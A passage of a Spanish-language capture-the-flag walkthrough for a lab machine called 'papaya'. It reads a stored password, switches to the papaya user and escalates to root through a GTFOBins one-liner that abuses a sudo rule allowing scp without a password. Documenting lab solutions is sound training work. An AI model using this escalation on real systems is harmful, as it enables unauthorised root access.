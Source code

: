 ```bash
$ cat pass.txt 
papayarica
```

Nos logeamos como **papaya**:

```bash
www-data@papaya:/opt$ su papaya
Password: 
papaya@papaya:/opt$ id
uid=1000(papaya) gid=1000(papaya) grupos=1000(papaya),100(users)
papaya@papaya:/opt$
```

# Escalada de privilegios

Vamos a ver si el usuario puede ejecutar algún comando como **root**:

```bash
papaya@papaya:/opt$ sudo -l
Matching Defaults entries for papaya on papaya:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User papaya may run the following commands on papaya:
    (root) NOPASSWD: /usr/bin/scp
```

Vemos que puede usar el comando scp como root. Buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/scp/#sudo) el comando y ejecutamos:

```bash
TF=$(mktemp) && echo 'bash 0<&2 1>&2' > $TF && chmod +x "$TF" && sudo scp -S $TF x y:
root@papaya:~# whoami; hostname; id
root
papaya
uid=0(root) gid=0(root) grupos=0(root)
root@papaya:~#
```

Y con esto terminamos la máquina.

Un saludo
